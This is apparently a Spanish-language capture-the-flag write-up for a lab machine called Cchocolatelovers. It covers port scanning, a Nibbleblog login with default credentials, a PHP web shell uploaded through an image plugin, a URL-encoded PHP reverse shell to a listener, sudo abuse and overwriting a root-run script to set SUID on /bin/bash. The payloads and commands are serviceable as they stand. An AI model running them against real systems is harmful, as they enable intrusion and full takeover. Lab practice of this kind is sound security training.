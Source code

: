 ```yaml
---
Maquina: Cchocolatelovers
SO: Linux
Explotación: Análisis de web
Escala_privs: Permisos sudo / Procesos root
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - web
  - nibbleblog
  - procesos
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241029181534.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241029181556.png]]

Como se puede apreciar es la página por defecto de apache. Vamos a intentar ver si hay alguna web adicional.

Si investigamos el código fuente podemos observar que tienen un nibbleblog instalado.

![[Pasted image 20241029181644.png]]

Y si nos adentramos podemos observar el panel principal de Nibbleblog

![[Pasted image 20241029181724.png]]

Podemos intentar iniciar sesión en el panel. Pero no nos sabemos las credenciales... Vamos a probar con las tipicas de admin:admin ->

![[Pasted image 20241029181825.png]]

Parece que estamos dentro...

![[Pasted image 20241029181846.png]]

Vamos a ver si podemos instalar algún plugin que tenga vulnerabilidades...

![[Pasted image 20241029181922.png]]

Parece que podemos instalar el plugin de myimage... sería una pena poner un código malicioso en vez de una imágen, se me ocurre un código como este ->

```php
<?php
if (isset($_GET['cmd'])) {
    $output = shell_exec($_GET['cmd']);
    echo "<pre>$output</pre>";
} else {
    echo "No command provided.";
}
```

Que nos permita ver si ejecutamos algún comando, y vaya parece que lo ha pillado bien.

![[Pasted image 20241029182135.png]]

Ahora podríamos intentar pasar comandos por url tal que así ->

![[Pasted image 20241029182205.png]]

Y si intentamos pasar una reverse shell?

Para ello nos ponemos a la escucha:

```bash
nc -lvnp 4444
```

Y por otro lado le pasamos a la URL el comando códificado -> php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.1%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

Y listo, ya tenemos acceso a la bash de www-data

![[Pasted image 20241029182416.png]]

Nos queda hacer el proceso para upgradear la tty.

![[Pasted image 20241029184404.png]]

Listo, ahora vamos a pasar a ver nuestros permisos con sudo -l

![[Pasted image 20241029184446.png]]

Parece que podemos utilizar php como usuario chocolate, asi que vamos a pasar a ese usuario.

```bash
CMD="/bin/sh"
sudo -u chocolate php -r "posix_setuid(0); system('$CMD');"
```

![[Pasted image 20241029184622.png]]

Si ejecutamos el comando que nos permite ver los procesos en ejecución como root podemos observar algo interesante -> ps aux | grep root

![[Pasted image 20241029185718.png]]

Resulta que está ejecutando un proceso curioso -> sudo -u chocolate php -r posix_setuid(0); system('/bin/sh');

Si nos fijamos en el /opt/script.php somos propiertarios del archivo.

![[Pasted image 20241029185852.png]]

Vamos a intentar modificarlo para meterle una línea de código maliciosa

```bash
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Tras esperar un poco asignamos el bit de superusuario al /bin/bash

![[Pasted image 20241029190231.png]]

Con lo que ya podemos ejecutar un bash como root sin necesidad de passwd

![[Pasted image 20241029190301.png]]

